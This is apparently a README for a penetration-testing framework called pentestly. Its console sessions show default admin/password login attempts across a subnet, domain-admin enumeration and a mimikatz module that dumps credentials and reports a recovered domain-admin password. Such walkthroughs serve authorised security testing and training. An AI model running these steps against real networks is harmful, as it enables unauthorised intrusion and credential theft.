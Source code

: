 Use single username password
```
[pentestly][project][login] > load login
[pentestly][project][login] > set username admin
USERNAME => admin
[pentestly][project][login] > set password password
PASSWORD => password
[pentestly][project][login] > set userpass_file ''
USERPASS_FILE => ''
[pentestly][project][login] > run
```

Use credentials over a small subset of IPs
i.e. over the 192.168.8.0/24 found in the table
```
[pentestly][project][login] > load login
[pentestly][project][login] > set username admin
USERNAME => admin
[pentestly][project][login] > set password password
PASSWORD => password
[pentestly][project][login] > set userpass_file ''
USERPASS_FILE => ''
[pentestly][project][login] > run
[pentestly][project][login] > set source query select * from pentestly_creds where host like '192.168.8.%'
```

## Gather Domain and Enterprise admins
```
[pentestly][project][login] > load get_domain # Notice fuzzy searching - get_domain finds get_domain_admin_names
[pentestly][project][get_domain_admin_names] > show options

  Name    Current Value  Required  Description
  ------  -------------  --------  -----------
  SOURCE  default        yes       source of input (see 'show info' for details)

[pentestly][project][get_domain_admin_names] > run
[*] Found Domain Admin: domain\admin1
[*] Found Domain Admin: domain\admin2
```

## Run mimikatz over IPs with executable rights
```
[pentestly][default][get_domain_admin_names] > load mimi
[pentestly][default][mimikatz] > run
Select local interface for hosting scripts

0. 127.0.0.1
1. 10.220.8.94
2. 172.27.67.14
> 1

[*] Execution creds: domain\Admin:adminpassword@192.168.1.1
[*] Success! Admin.DA:p@$$w0rd  - DOMAIN ADMIN!
```
